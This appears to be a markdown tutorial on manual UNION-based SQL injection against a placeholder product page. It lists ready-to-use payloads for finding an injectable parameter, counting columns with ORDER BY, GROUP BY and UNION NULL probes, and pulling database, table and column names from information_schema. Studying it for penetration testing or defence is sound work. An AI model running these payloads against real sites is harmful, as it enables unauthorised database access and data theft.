 In the process of finding SQL on the desired website, we must look for pages and forums that we must enter, 

or for example, by clicking on an icon or item, a new section will open for us.

For example, by clicking on an item, a GET request is sent to the origin of the website, but the id parameter is added to the URL and the value 13 is requested.

    http://target.tld/product.php?id=13

In order to make sure that this id parameter is related to the DBMS, we test different values ​​in the id input value.

For example, we have already tested and we know that we have a value for id=18.

so => id=13'+'5  and URL endoce it: id = 13'%2b'5

Entry Point:

     [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))

If it works and the output of parameter id=18 is displayed, you can test other inputs as well


another query: 

    ?id=13'AND 1=1 %23
    ?id=13'AND 1=0 %23
    ?id=13' order by 1 %23    => always true query


You can find the number of columns with order by:

    ?id=13'order by 10 %23

We will send this request if we don't get a response, that means the number of columns is less than 10 Now we decrease one by one until we get the response on page 13 and find the number of columns.

    1' ORDER BY 1--+    #True
    1' ORDER BY 2--+    #True
    1' ORDER BY 3--+    #True
    1' ORDER BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

and GROUP BY:

    1' GROUP BY 1--+    #True
    1' GROUP BY 2--+    #True
    1' GROUP BY 3--+    #True
    1' GROUP BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

                            



UNION is used to agree two queries. You can find the number of columns using UNION

    ?id=13'UNION SELECT NULL-- -            => ERROR!
    ?id=13'UNION SELECT NULL,NULL-- -       => ERROR!
    ?id=13'UNION SELECT NULL,NULL,NULL-- -  => No Error, so the number of columns is 3





Extract database names, table names and column names

    #Database names
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
    
    #Tables of a database
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
    
    #Column names
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]



